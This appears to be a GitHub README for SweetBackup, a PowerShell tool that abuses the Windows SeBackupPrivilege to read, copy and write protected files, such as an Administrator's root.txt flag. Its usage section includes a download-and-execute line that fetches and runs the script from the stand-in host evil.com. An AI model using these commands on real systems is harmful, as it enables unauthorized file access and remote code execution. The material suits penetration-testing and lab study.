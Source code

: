 # SweetBackup

SweetBackup is a PowerShell version of [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege), some commands are identically named. It was written with PSReflect for PInvoke to avoid any artifacts and its PowerShell v2 compliant.

Usage
=====================

Import the script
-----------------

* <code>PS> Import-Module .\SweetBackup.ps1</code>

* <code>PS> . .\SweetBackup.ps1</code>

* <code>PS> IEX (New-Object System.Net.WebClient).DownloadString('https://evil.com/SweetBackup.ps1')</code>

Available commands
-----------------

* Retreive status of SeBackupPrivilege access token: <code>Get-SeBackupPrivilege</code>
 
* Enable SeBackupPrivilege: <code>Set-SeBackupPrivilege</code>

* Read content of a file: <code>Read-FileContent -Backup -Path C:\Users\Administrator\Desktop\root.txt ;)</code>

* Set content of a file: <code>Set-FileContent -Path .\hello.txt -Content "hello"</code>

* Add content to a file: <code>Add-FileContent -Path .\hello.txt -Content "$([System.Environment]::NewLine)hello"</code>

* Copy a file: <code>Copy-File -Path C:\Users\Administrator\Desktop\root.txt -Destination .\root.txt -Backup</code>

The -Backup flag indicates if SeBackupPrivilege need to be used.

Future changes
=====================

I don't really have idea about how to improve this small project, but if you have, feel free raise an issue or propose a pull requests !

